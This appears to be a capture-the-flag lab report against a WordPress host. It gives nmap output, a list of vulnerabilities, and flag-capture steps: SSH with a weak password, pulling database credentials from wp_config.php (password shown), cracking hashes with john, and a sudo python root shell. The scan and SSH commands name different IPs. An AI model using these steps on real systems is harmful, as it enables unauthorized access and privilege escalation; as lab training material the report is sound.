

# Red Team: Summary of Operations

## Table of Contents
- [Exposed Services](#exposed-services)
- [Critical Vulnerabilities](#critical-vulnerabilities)
- [Exploitation](#exploitation)

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
#  Nmap scan report for 192.168.1.110
#  Host is up (0.00072s latency).
#  Not shown: 995 closed ports
#  PORT    STATE SERVICE     VERSION
#  22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
#  80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
#  111/tcp open  rpcbind     2-4 (RPC #100000)
#  139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
#  MAC Address: 00:15:5D:00:04:10 (Microsoft)
#  Device type: general purpose
#  Running: Linux 3.X|4.X
#  OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
#  OS details: Linux 3.2 - 4.9
#  Network Distance: 1 hop
#  Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
#
#  OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
#  # Nmap done at Wed Mar 24 17:59:39 2021 -- 1 IP address (1 host up) scanned in 13.33 seconds
```

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22 (SSH)
  - Port 80 (HTTP)
  - Port 111 (rpcbind)
  - Port 139 (netbios / smb)
  - Port 445 (netbios / smb)

### Critical Vulnerabilities

The following vulnerabilities were identified on each target:
- Target 1
  - `wpscan` user enumeration
    - `wpscan` was able to enumerate users and find valid usernames for the
      target system.
    - 
  - SSH with Password
    - Users are able to ssh into the machine with simply a password, rather than
      requiring an SSH key.
    - User `michael` had an incredibly weak password (same as his username).
  - `python` can run with sudo
    - User `steven` has the ability to run `python` with `sudo`
    - Python can execute arbitrary code on the system, so it is trivial to get
      a shell with root access using this loophole
  - Database credentials in plain text
    - Database credentials for the wordpress site were found written in plain
      text, and stored in the `/var/www/html/wp_config.php`.
    - This allowed us to access the mysql database used for the site, and
      extract password hashes and other confidential information.
  - [CVE-2017-3167](https://access.redhat.com/security/cve/CVE-2017-3167)
    - Authentication bypass is possible on the version of Apache running on the
      server
  - [CVE-2017-7494](https://www.cvedetails.com/cve/CVE-2017-7494/)
    - Version of `samba` running on the server is insecure and allows for remote
      code execution.

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: b9bbcb33e11b80be759c4e844862482d
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, we were able
          to search the `/var/www/html` directory for `flag1`.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www/html`
        - `grep -ER flag1`
  - `flag2.txt`: fc3fd58dcdad9ab23faca6e9a36e581c
    - **Exploit Used**
      - Weak Password / SSH with password
        - After SSHing into the host with `michael`'s credentials, `flag2` was
          found right in `/var/www`
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `cd /var/www`
        - `cat flag2.txt`
  - `flag3.txt`: afc01ab56b50591e7dccf93122770cd2
    - **Exploit Used**
      - Database credentials in plain text
        - After getting the database credentials from
          `/var/www/html/wp_config.php`, we connected to the `mysql` database
          and searched for the flag.
      - Commands run:
        - `ssh michael@192.168.1.100`
        - `less /var/www/html/wp_config.php`
        - `mysql --user root --password` # Password is `R@v3nSecurity`
        - `mysql> SELECT post_title, post_content FROM wp_posts WHERE post_title LIKE "flag%";`
        - This returned the value for flag 3
  - `flag4.txt`: 715dea6c055b9fe3337544932f2941ce
    - **Exploit Used**
      - `python` can run with sudo
        - After cracking `steven`'s password using `john` and the hash found in
          the database, we determined that user `steven` could run `python` with
          `sudo` permissions.
        - This allows us to use python as sudo to execute a shell program,
          thereby granting us access to the `root` account.
        - `flag4.txt` was found in the `/root` directory, the `root` account's
          home directory.
      - Commands run:
        - `python -c 'import os; os.system("/bin/sh")'`
        - `cat flag4.txt`

